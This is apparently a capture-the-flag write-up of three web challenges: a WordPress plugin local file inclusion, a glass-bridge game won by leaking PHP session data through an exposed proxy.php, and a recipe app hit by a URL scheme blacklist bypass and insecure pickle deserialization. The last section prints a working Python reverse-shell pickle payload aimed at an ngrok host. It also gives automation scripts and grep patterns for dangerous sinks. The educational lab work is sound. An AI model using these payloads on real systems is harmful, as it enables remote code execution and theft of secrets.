I failed it. But it was fun to try, better next time fosho.

## Kiwi

### Challenge Overview

A typical WordPress challenge.



When tackling a WordPress challenge, the very first step is to recon some baseline information about the target.

Inspecting the provided source code shows that a custom plugin named **Kiwiblocks (version 3.5.1)** is installed. As this plugin does not exist in the WordPress plugin directory and has no known CVEs, the intended attack vector is not based on known vulnerabilities but rather on source code analysis.



The website uses the official `Twenty Twenty-Five theme`, which is a public and up-to-date WordPress theme and does not introduce any additional attack surface.



Doing some grep to quickly identity some "dangerous" function, endpoints in the source code

```bash
rg "register_rest|wp_ajax" -g "*.php" # entrypoint
rg "\$_(GET|POST|REQUEST|FILES|COOKIE)" -g "*.php" # input
rg "(include|require|file_get_contents|readfile|exec|system|shell_exec)" -g "*.php" # sink 
rg "\$_(GET|POST|REQUEST).*?(include|require|file_get_contents|exec)" -g "*.php" # flow
```

I found some interesting stuff using this query. There is a path traversal in `src/admin-panel/views/panel.php`.



 It accepts user input which is `$tab` as untrusted data and then directly concatenates it into an `include_once` statement without any validation or sanitization.

```php title="src/admin-panel/views/panel.php"
        $tab = isset($_GET['tab']) ? $_GET['tab'] : 'general.php';
		try
		{
			@include_once __DIR__ . '/tabs/' . $tab;
		}
```
Since the vulnerable file is directly accessible under the plugin directory, the LFI can be exploited via `/wp-content/plugins/kiwiblocks/src/admin-panel/views/panel.php`



Perform the path traversal stuff with `?tab` and boom



## Squid Game

This challenge is maybe the hardest among the three challs (imo).

### Challenge Overview

This challenge presents a glass-bridge game inspired by the famous TV series Squid Game. The flag can be obtained by successfully crossing the bridge; however, doing so by guessing is practically impossible due to the extremely low probability of success.



### Source Audit
There are 40 sequential steps require to obtain the flag. Each time the game is reset, `reset_game()` reinitializes the session state by setting `current_step` to -1 and generating a new random path consisting of 40 bits using `random_int(0,1)`. This path is stored entirely in the PHP session. Brute-forcing seems almost impossible because of *`PROBABILITY`* (nothing can win it). 

```php title="index.php"
function reset_game() {
    global $STEPS;
    $_SESSION['path'] = []; 
    $_SESSION['current_step'] = -1;
    for ($i = 0; $i < $STEPS; $i++) $_SESSION['path'][] = random_int(0, 1);
}
```

Logic is sort of flawless, no chance to bypass

```php title="index.php"
if (!isset($_SESSION['current_step'])) $_SESSION['current_step'] = -1;
if ($step !== $_SESSION['current_step'] + 1) die('err_seq');
if ($step < 0 || $step >= $STEPS) die('err');
if ($_SESSION['path'][$step] === $side) {
        $_SESSION['current_step'] = $step;
        echo 'ok';
        if ($step === $STEPS - 1) echo '|' . shell_exec('cat /flag-*');
    } else {
        reset_game();
        echo 'dead';
    }
```

While reviewing the source code, I noticed an interesting detail: this challenge includes the libjs-jquery-jfeed package. Combined with the provided [hint](https://i.blackhat.com/BH-US-24/Presentations/US24-Orange-Confusion-Attacks-Exploiting-Hidden-Semantic-Thursday.pdf), this led to an important insight. On Debian-based systems, installing `libjs-jquery-jfeed` automatically pulls in javascript-common, which configures an Apache alias mapping `/javascript/` to `/usr/share/javascript/`. As a result, the `jquery-jfeed/proxy.php` script becomes exposed as a public endpoint. This script accepts a user-controlled url parameter and retrieves its contents without any validation, effectively introducing an SSRF/LFI primitive that can be abused to read arbitrary local files.

```dockerfile
RUN apt update && apt install libjs-jquery-jfeed -y
```


### Thinking

The game logic appears to be implemented correctly: steps must be taken sequentially, skipping or revisiting steps is prevented, and brute-forcing the solution is impractical due to cryptographically secure randomness. At this point, there is no evident logic flaw or direct misuse of untrusted input. Since the only way to win is by following the randomly generated path, the focus shifts to whether this path can be leaked. Because the path is stored entirely in the PHP session, disclosing the session data via LFI would allow the correct sequence to be reconstructed.

### Exploitation

First, get a SESSION_ID via `/?act=respawn` with a blank cookie header



Second , try to leak the map via `jquery-jfeed/proxy.php` using LFI technique with that SESSION_ID. 


Now we convert that map object to literal string using this script
```python
import re

data = "i:0;i:1;i:1;i:0;i:2;i:0;i:3;i:0;i:4;i:1;i:5;i:1;i:6;i:0;i:7;i:0;i:8;i:1;i:9;i:0;i:10;i:0;i:11;i:0;i:12;i:0;i:13;i:1;i:14;i:0;i:15;i:1;i:16;i:0;i:17;i:1;i:18;i:0;i:19;i:1;i:20;i:1;i:21;i:1;i:22;i:0;i:23;i:1;i:24;i:0;i:25;i:0;i:26;i:1;i:27;i:1;i:28;i:0;i:29;i:1;i:30;i:0;i:31;i:1;i:32;i:0;i:33;i:0;i:34;i:0;i:35;i:0;i:36;i:0;i:37;i:0;i:38;i:1;i:39;i:1;"

bits = re.findall(r"i:\d+;i:(\d);",data)
MAP = "".join(bits)
print(MAP)
```

After we got the map, write a small automation script in Python to play the game with the leak map.
```python
import requests

MAP = "1000110010000101010111010011010100000011"
BASE_URL = "http://localhost:6969"
PHPSESSID = "7ecfec69e09c6d651c6061b144fffdb4"

def auto_play():
    s = requests.Session()
    s.cookies.set("PHPSESSID", PHPSESSID)
    print(f"PHSESSID={PHPSESSID}")
    for step, ch in enumerate(MAP):
        side = int(ch)
        url = f"{BASE_URL}?act=move&step={step}&side={side}"
        r = s.get(url, timeout=5)
        body = r.text
        print(f"[step {step:02d}] side={side} -> {body}")
        if body.startswith("dead"):
            print("DEAD, MAP OR SESSION MISMATCH")
        if body.startswith("err_seq"):
            print("SEQUENCE ERROR")
        if "|" in body:
            print(f"FLAG: {body.split('|')[1]}")
            return
    print("FINISHED STEPS WITHOUT FLAG")

if __name__ == "__main__":
    auto_play()
```
And finally we got the flag




## Pickle Receipt

### Challenge Overview


The challenge presents us with an interface of the recipe manager. We can either submit or view the recipe. Let's go through the functionalities of this application.




We need to input three fields in order to submit recipe




Then it output the encrypted binary data



Now we can use the previous encrypted binary data to view the recipe at `/view`

| | |
|:--:|:--:|
|  |  |


### Source Audit

Now let's dive into the source to identify the surface that we can exploit.

Before we build the container, we must run the provided script that creates a random flag and a random encryption key
```sh title="randomize.sh"
APP_ENCRYPTION_KEY=$(openssl rand -base64 32 | tr '+/' '-_' | tr -d '\n')
FLAG_VALUE="flag{$(cat /proc/sys/kernel/random/uuid)}"
```

There are some important functions in `security.py`. This app using the `Fernet` algorithm which is symmetric encryption to encrypt/decrypt the data. The key is fetched from the environment variable when we running the `randomize.sh` script. The Fernet key must be in bytes. It also blacklist the `file` and `ftp` scheme to mitigate against trivial SSRF/LFI.

```python title="security.py" 
from cryptography.fernet import Fernet

def _cipher(key=None):
    if key is None:
        key = os.environ.get('APP_ENCRYPTION_KEY')
    if not key:
        raise EncryptionError("APP_ENCRYPTION_KEY environment variable is not set")
    if isinstance(key, str):
        key = key.encode('utf-8')

def encrypt_data(data):
    if isinstance(data, str):
        data = data.encode('utf-8')
    return _cipher().encrypt(data)

def decrypt_data(token, key=None):
    if isinstance(token, str):
        token = token.encode('utf-8')
    return _cipher(key).decrypt(token)  

def is_url_scheme_allowed(url):
    parsed = urlparse(url)
    scheme = parsed.scheme.lower()
    return scheme not in {'file', 'ftp'}

```

In `submit_recipe()` the `/submit` route  handles both `GET` and `POST` method. On `GET` it just render the form. On `POST` it collects three fields, packs them into the dict, serializes that dict with `pickle.dump()`, then encrypts the pickle with `encrypt_data()` (using the `APP_ENCRYPTION_KEY`). The encrypted token is then returned to user.

```python title="app.py"
@app.route('/submit', methods=['GET', 'POST'])
def submit_recipe():
    if request.method == 'POST':
        recipe_name = request.form['recipe_name']
        ingredients = request.form['ingredients']
        secret_ingredient = request.form['secret_ingredient']
        recipe = {
            'recipe_name': recipe_name,
            'ingredients': ingredients,
            'secret_ingredient': secret_ingredient
        }
        serialized_recipe = pickle.dumps(recipe)
        encrypted_recipe = encrypt_data(serialized_recipe)
        return render_template('encrypted_data.html', data=encrypted_recipe)
    return render_template('submit_recipe.html')
```

In `view_recipe()`, the `/view` endpoint handles both `GET` and `POST` method. On `GET`, it serves a form. On `POST`, it accepts either an `encrypted_data` directly or an `url` to fetch it. If an URL is provided, they blocks the `ftp` and `file` scheme, then uses `urlib.request.urlopen` to pull the content. The result is taken as the ciphertext, decode to bytes, and decrypt with the decryption key. The decrypted blob is then passed to `pickle.load()` with no validation, and resulting the object is rendered.
```python title="app.py"
def view_recipe():
    if request.method == 'POST':
        encrypted_recipe = request.form.get('encrypted_data', '')
        recipe_url = request.form.get('url')
        if recipe_url:
            if not is_url_scheme_allowed(recipe_url):
                return "URL scheme not allowed", 400
            try:
                print(recipe_url,flush=True)
                with urllib.request.urlopen(recipe_url) as response:
                    encrypted_recipe = response.read().decode('utf-8').strip()
            except Exception as e:
                return f"Unable to retrieve recipe data", 400
        if not encrypted_recipe:
            return "Invalid request!", 400
        try:
            encrypted_recipe = encrypted_recipe.encode('utf-8')
            serialized_recipe = decrypt_data(encrypted_recipe, None)
            # insecure deserialize here 
            recipe = pickle.loads(serialized_recipe)
            return render_template('view_recipe.html', recipe=recipe)
        except EncryptionError:
            return "Encryption key misconfigured", 500
        except Exception:
            return f"Error loading recipe. Please check:\n{encrypted_recipe}", 500
    return render_template('view_recipe_form.html')
```

### Thinking

We can easily notice some vulnerabilities in those functions. 

First, the blacklist on `is_url_scheme_allowed()` is kinda bad can easily bypass using `url=<space>file`. Base on that, we can read the Fernet key at `/proc/self/environ` which contains all the environment variables for the current process. We can read it by calling an Exception
```python
    except Exception:
        return f"Error loading recipe. Please check:\n{encrypted_recipe}", 500
```



Second, the serialize/deserialize process has no validation. It accepts user input as the untrusted data and treat it normally. We can exploit this by encrypt the reverse shell payload using the leak key and then serialize it with `pickle.loads()` and then post it on the `/view` endpoint.


### Exploitation

First, we leak the key through the Exception error:


Grab `APP_ENCRYPTION_KEY`, then use a small Python script to encrypt a malicious pickle that runs a reverse shell. Because the container is Alpine with few built-in tools, a Python-based reverse shell is the most reliable choice. I also use the `ngrok` to expose my local listener so the shell could reach back out. 


```python title="payload.py"
import pickle,os,subprocess
from cryptography.fernet import Fernet

HOST = '0.tcp.ap.ngrok.io'
PORT = '18208'
KEY =  "E-LfaRyL541TMZPAO1wJ5x4eVMkp7oRoJxqEZAoSsVs="

cmd = f"import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('{HOST}',{PORT}));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import subprocess;subprocess.call(['/bin/sh','-i'])"

class Evil(object):
    def __reduce__(self):
        return (os.system,(f'python3 -c "{cmd}"',))

pickled = pickle.dumps(Evil())
encrypted = Fernet(KEY).encrypt(pickled)
print(encrypted)
```

Here is the payload in bytes:




Submit it in the `encrypted_data` on `/view` endpoint



Successfully reverse the shell 

